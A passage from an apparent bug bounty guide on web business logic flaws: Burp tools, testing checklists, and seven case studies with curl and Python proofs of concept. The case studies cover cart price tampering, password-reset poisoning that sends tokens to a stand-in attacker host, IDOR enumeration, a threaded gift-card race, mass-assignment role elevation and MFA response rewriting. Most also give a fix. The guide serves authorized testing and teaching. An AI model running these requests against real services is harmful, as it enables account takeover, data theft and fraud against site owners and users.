| **Autorize** | BApp Store | Automated IDOR/privilege escalation testing across roles |
| **ATOR (Auth Token Object Replacer)** | GitHub | Replace auth tokens in all requests for role comparison |
| **Turbo Intruder** | BApp Store | High-speed concurrent requests for race conditions |
| **JWT Editor** | BApp Store | JWT decode, sign, alg:none, RS256 to HS256 attacks |
| **Param Miner** | BApp Store | Discover hidden/unlinked parameters for mass assignment |
| **Hackvertor** | BApp Store | Real-time payload encoding/transformation |
| **InQL** | BApp Store | GraphQL introspection and fuzzing |
| **HTTP Request Smuggler** | BApp Store | HTTP desync attacks affecting logic |
| **Logger++** | BApp Store | Advanced request/response logging and filtering |
| **Active Scan++** | BApp Store | Extended active scan checks including logic tests |

### Autorize Configuration

```
1. Install Autorize from BApp Store
2. Log in as a low-privilege user (e.g., "user" role)
3. Copy that user's Cookie/Authorization header into Autorize's "Fetch Header" field
4. Log in as high-privilege user (e.g., "admin" role) in the same Burp browser
5. Browse admin functionality — Autorize re-sends every request with the low-priv token
6. Green = authorization enforced | Yellow = enforced but different content | Red = IDOR/privilege escalation
```

---

## Testing Checklists

### Price Manipulation
- [ ] Negative quantity produces negative total
- [ ] Zero quantity results in free order
- [ ] Price parameter in request overwritten to $0.01
- [ ] Discount parameter set to 100%
- [ ] Total parameter set to $0.01
- [ ] Integer overflow on quantity (2147483647)
- [ ] Apply same coupon twice in one session
- [ ] Currency parameter swapped to weak currency
- [ ] Free shipping threshold bypass via subtotal modification

### Authentication Bypass
- [ ] Access authenticated pages without cookie
- [ ] Access page after manual cookie deletion
- [ ] Submit MFA with empty or null token
- [ ] Submit MFA with token from a different account
- [ ] Password reset: old token still valid after new token issued
- [ ] Password reset: no rate limit on token guessing
- [ ] Host header injection in reset email
- [ ] X-Forwarded-Host injection in reset email
- [ ] OAuth redirect_uri accepts arbitrary domains
- [ ] OAuth state parameter missing or static
- [ ] JWT alg:none accepted
- [ ] JWT HS256 weak secret crackable with hashcat
- [ ] JWT RS256 to HS256 confusion

### IDOR
- [ ] Enumerate numeric IDs plus/minus 1 from own ID
- [ ] Replace GUID with another user's GUID
- [ ] Access files by predictable filename
- [ ] Modify request body user_id, account_id, or owner_id
- [ ] GraphQL: query other users by node ID
- [ ] Blind IDOR: delete or modify another user's resource
- [ ] IDOR in password change (change another user's password)
- [ ] IDOR in email address change

### Race Conditions
- [ ] Gift card / promo code parallel redemption
- [ ] Withdraw same funds from two sessions simultaneously
- [ ] Vote / like / rate concurrently
- [ ] Referral bonus trigger concurrently
- [ ] Account balance spending race
- [ ] Email verification bypass via concurrent login

### Workflow Bypass
- [ ] POST directly to final checkout without prior steps
- [ ] Skip payment step entirely
- [ ] Replay confirmed order after cancellation
- [ ] Access premium features during or after trial expiry
- [ ] Modify workflow state stored in cookie or hidden field
- [ ] Reorder multi-step form submission sequence

### Mass Assignment
- [ ] role field accepted in registration or update
- [ ] isAdmin, is_admin, or admin field accepted
- [ ] verified or email_verified field settable by user
- [ ] balance, credits, or subscription field writable
- [ ] id or user_id field writable (ID switch)
- [ ] GraphQL input type accepts undocumented extra fields
- [ ] password_hash field directly assignable

---

## Real-World Case Studies

### Case 1 — Negative Quantity Cart Exploit

**Scenario:** A marketplace allowed fractional and negative product quantities in the cart API. Adding `-1` units of a $50 product and `1` unit of a $1 item produced a cart total of `-$49`. The checkout endpoint accepted and "processed" this, issuing a $49 credit to the attacker's account.

```bash
# Proof-of-concept
curl -s -X POST https://shop.target.com/api/cart \
  -H "Content-Type: application/json" \
  -H "Cookie: session=ATTACKER_SESSION" \
  -d '{"items":[{"sku":"LAPTOP","qty":-1,"price":999},{"sku":"PEN","qty":1,"price":1}]}'

# Expected response if vulnerable:
# {"cart_total": -998, "can_checkout": true}
```

**Root cause:** Server-side quantity validation checked `quantity != 0` but not `quantity > 0`.

**Fix:** `if quantity <= 0: raise ValidationError("Quantity must be a positive integer")`

---

### Case 2 — Password Reset Host Header Injection

**Target:** A SaaS platform with a "forgot password" feature.

**Steps:**
1. Researcher intercepted `POST /auth/forgot-password` in Burp
2. Added `X-Forwarded-Host: evil.researcher.com` header
3. Victim received reset email with link `https://evil.researcher.com/reset?token=TOKEN`
4. Token logged on researcher's server from victim's click
5. Researcher used token to reset victim's password

```bash
# Reproducer
curl -s -X POST https://app.target.com/auth/forgot-password \
  -H "Host: app.target.com" \
  -H "X-Forwarded-Host: attacker-server.com" \
  -H "Content-Type: application/json" \
  -d '{"email":"victim@target.com"}'

# Victim's email now contains:
# Click here to reset your password:
# https://attacker-server.com/reset?token=SECRETTOKEN123
```

**Impact:** Full account takeover of any account whose email is known.

**CVSS:** 9.3 Critical | **Payout range:** $5,000 – $15,000 on typical bug bounty programs.

---

### Case 3 — IDOR on Document Management API

**Scenario:** A document management SaaS stored files at `/api/documents/{doc_id}/download`. Document IDs were sequential integers starting from 1. Users could enumerate any document in the system regardless of ownership.

```bash
# Attacker's own document: /api/documents/8821/download
# Enumerate adjacent IDs
for doc_id in $(seq 8800 8830); do
  status=$(curl -s -o /dev/null -w "%{http_code}" \
    https://docs.target.com/api/documents/$doc_id/download \
    -H "Authorization: Bearer ATTACKER_TOKEN")
  echo "DOC $doc_id: HTTP $status"
done

# 200 responses are accessible documents belonging to other users
# Download them:
curl -s https://docs.target.com/api/documents/8820/download \
  -H "Authorization: Bearer ATTACKER_TOKEN" \
  -o victim_document_8820.pdf
```

**Impact:** Exposure of all documents stored in the platform — PII, contracts, financials.

---

### Case 4 — Gift Card Race Condition

**Scenario:** A researcher demonstrated a race condition in a gift card redemption endpoint. Simultaneous requests to redeem the same gift card at multiple locations both succeeded, effectively multiplying the card's value.

```python
#!/usr/bin/env python3
# PoC: race_giftcard.py
import threading, requests

URL = "https://shop.target.com/api/giftcard/redeem"
HEADERS = {"Cookie": "session=ATTACKER_SESSION", "Content-Type": "application/json"}
PAYLOAD = {"code": "GC-ABCD-1234", "amount": 50}

def redeem():
    r = requests.post(URL, json=PAYLOAD, headers=HEADERS)
    print(f"[{threading.current_thread().name}] {r.status_code}: {r.text[:100]}")

threads = [threading.Thread(target=redeem, name=f"T{i}") for i in range(10)]
for t in threads: t.start()
for t in threads: t.join()
```

**Expected outcome (if vulnerable):** Multiple `{"success": true, "credited": 50}` responses — balance credited 10x.

**Fix:** Use database-level atomic operations: `UPDATE gift_cards SET used=true WHERE code=? AND used=false` with row-level locking.

---

### Case 5 — Mass Assignment Role Elevation

**Scenario:** A project management SaaS allowed users to update their profile via `PUT /api/users/me`. The underlying ORM bound all submitted fields to the user model. Submitting `"role": "owner"` promoted the user to the highest permission level.

```bash
# Normal profile update
curl -s -X PUT https://app.target.com/api/users/me \
  -H "Authorization: Bearer USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"display_name": "Test User"}'

# Mass assignment attack — inject role field
curl -s -X PUT https://app.target.com/api/users/me \
  -H "Authorization: Bearer USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"display_name": "Test User", "role": "owner", "is_admin": true}'

# Confirm privilege escalation
curl -s https://app.target.com/api/users/me \
  -H "Authorization: Bearer USER_TOKEN" \
  | python3 -m json.tool
# {"id": "...", "display_name": "Test User", "role": "owner", "is_admin": true}
```

**Impact:** Full administrative access to the target organization's account including all data, user management, and billing.

---

### Case 6 — Authentication Bypass via Response Manipulation

**Scenario:** A mobile banking app performed MFA via SMS OTP. The app's client-side JavaScript checked `"verified": true` in the API response to decide whether to proceed past the MFA screen. By intercepting the failed OTP verification response and changing `"verified": false` to `"verified": true`, the researcher bypassed MFA entirely — without a valid OTP.

```bash
# Burp Suite: Proxy -> Options -> Match and Replace
# Add rule:
#   Type: Response body
#   Match: "verified":false
#   Replace: "verified":true

# Submit any invalid OTP code
curl -s -X POST https://banking.target.com/auth/otp/verify \
  -H "Cookie: session=PRE_AUTH_SESSION" \
  -d "otp=000000"

# Burp intercepts the 401 response and rewrites it to 200 with "verified":true
# App client receives "verified":true and grants dashboard access
```

**Lesson:** Business logic must be enforced **server-side**. Client-side trust of API response fields for access decisions is always exploitable.

---

### Case 7 — Coupon Reuse via Cart State Manipulation

**Scenario:** An e-commerce platform allowed a single-use promotional coupon per transaction. A researcher found that removing all items from the cart after applying a coupon, then re-adding items, preserved the coupon's discount. The coupon's "used" flag was tied to order completion, not to application to the cart.

```bash
# Step 1: Apply coupon to get 50% discount
curl -s -X POST https://shop.target.com/api/coupon/apply \
  -H "Cookie: session=abc123" \
  -d "code=HALFOFF"
# Response: {"discount": "50%", "cart_total": 499.50}

# Step 2: Remove all items from cart (coupon remains in applied state)
curl -s -X DELETE https://shop.target.com/api/cart/items \
  -H "Cookie: session=abc123"

# Step 3: Re-add item — cart total still reflects 50% discount
curl -s -X POST https://shop.target.com/api/cart/add \
  -H "Content-Type: application/json" \
  -H "Cookie: session=abc123" \
  -d '{"product_id":"LAPTOP-001","quantity":1}'

curl -s https://shop.target.com/api/cart \
  -H "Cookie: session=abc123"
# Response: {"cart_total": 499.50, "coupon": "HALFOFF"}
# Repeat from Step 2 to keep discount across multiple orders
```

**Fix:** Tie coupon state to the session rather than to order completion. Invalidate the coupon as soon as it is applied, refund it only on order cancellation via idempotent server-side state machine.

---

> **Note:** All case studies above are based on publicly disclosed or conceptually documented vulnerability patterns. Always conduct testing within the scope and rules of an authorized bug bounty program or with explicit written permission from the target organization.

> **Warning:** Exploiting business logic vulnerabilities on systems without authorization is illegal under the Computer Fraud and Abuse Act (CFAA), the UK Computer Misuse Act, and equivalent laws in most jurisdictions. The techniques described here are for educational purposes and authorized penetration testing only.

---

## Quick Reference Summary

```
Price Manipulation -> Negative qty, param tamper, coupon reuse, overflow
Auth Bypass        -> Forced browse, step skip, reset poison, JWT alg:none
IDOR               -> Enumerate IDs, replace GUIDs, blind IDOR, API body params
Race Conditions    -> Turbo Intruder, Python threads, gift cards, balance spend
Workflow Bypass    -> Skip steps, modify state cookie, replay final step
Mass Assignment    -> role=admin, isAdmin=true, credits=999999 in any update endpoint
Account Takeover   -> Reset poison + Host header, username confusion, response manip
```

| Severity | Vulnerability | Typical CVSS |
|---|---|---|
| Critical | ATO via password reset poisoning | 9.1 – 9.8 |
| Critical | IDOR on financial data or PII | 8.5 – 9.5 |
| High | Race condition on financial balance | 7.5 – 8.9 |
| High | Mass assignment leading to admin escalation | 8.0 – 9.0 |
| High | Authentication bypass / forced browse | 7.5 – 9.0 |
| Medium | Price manipulation via discount abuse | 5.0 – 7.5 |
| Medium | Workflow bypass skipping payment step | 6.0 – 8.0 |
| Low–Medium | Coupon or gift card race condition | 4.0 – 6.5 |
